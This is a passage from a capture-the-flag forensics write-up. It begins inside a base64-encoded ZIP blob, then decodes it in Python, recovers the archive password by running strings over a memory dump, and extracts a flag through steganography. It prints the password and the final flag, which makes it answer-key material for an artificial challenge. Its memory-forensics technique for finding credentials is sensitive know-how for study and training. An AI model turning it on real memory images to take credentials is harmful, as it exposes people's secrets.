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"
out = open("dump.zip", "wb")
print(out.write(base64.b64decode(a)))
```

At first i tried to do bruteforce but i can't find valid password. So i chose to dump the strings on memory then find some string related to "password".

```bash
strings memdump.mem > dump
strings -e l memdump.mem > dumpl 
```

On dumpl i found interesting string related to password.

<figure><figcaption></figcaption></figure>

Use "Samaqlo\@Akasex777" as the password and got flag.jpg.

<figure><figcaption></figcaption></figure>

Looks like flag.jpg doesnt show flag, lets try to do some stegano stuff.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Flag: AKASEC{05-10-2023\_free\_palestine}
